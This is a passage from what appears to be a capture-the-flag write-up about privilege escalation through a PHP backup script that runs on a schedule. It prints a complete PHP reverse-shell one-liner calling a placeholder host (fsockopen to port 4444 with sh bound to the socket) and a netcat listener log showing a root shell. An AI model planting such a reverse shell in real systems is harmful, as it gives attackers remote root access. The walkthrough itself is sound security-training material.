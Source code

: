 ```php
		if (file_exists($source)) {
			$zip = new ZipArchive();
			if ($zip->open($destination, ZIPARCHIVE::CREATE)) {
				$source = realpath($source);
				if (is_dir($source)) {
					$files = new RecursiveIteratorIterator(new RecursiveDirectoryIterator($source, RecursiveDirectoryIterator::SKIP_DOTS), RecursiveIteratorIterator::SELF_FIRST);
					foreach ($files as $file) {
						$file = realpath($file);
						if (is_dir($file)) {
							$zip->addEmptyDir(str_replace($source . '/', '', $file . '/'));
						} else if (is_file($file)) {
							$zip->addFromString(str_replace($source . '/', '', $file), file_get_contents($file));
						}
					}
				} else if (is_file($source)) {
					$zip->addFromString(basename($source), file_get_contents($source));
				}
			}
			return $zip->close();
		}
	}
	return false;
}
?>
```

Adding `$sock=fsockopen("X.X.X.X",4444);shell_exec("sh <&3 >&3 2>&3");` before `?>` would execute another reverse shell if the php file is being called. <br/>
Not being able to modify the files and directories within the `scripts/` directory I just renamed the whole directory to `scripts_v1/`. <br/>
My guess was that the script.php was executed periodically so I made another directory with the name `scripts/` in which I unzipped the last backup. <br/>
Now being able to modify the files I added my reverse shell to `backup.inc.php` and waited with my netcat listener. <br/>
```sh
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [X.X.X.X] from (UNKNOWN) [10.10.98.27] 42988
whoami
root
cat /root/*
REDACTED
```

Obtaining the root flag concludes this writeup.
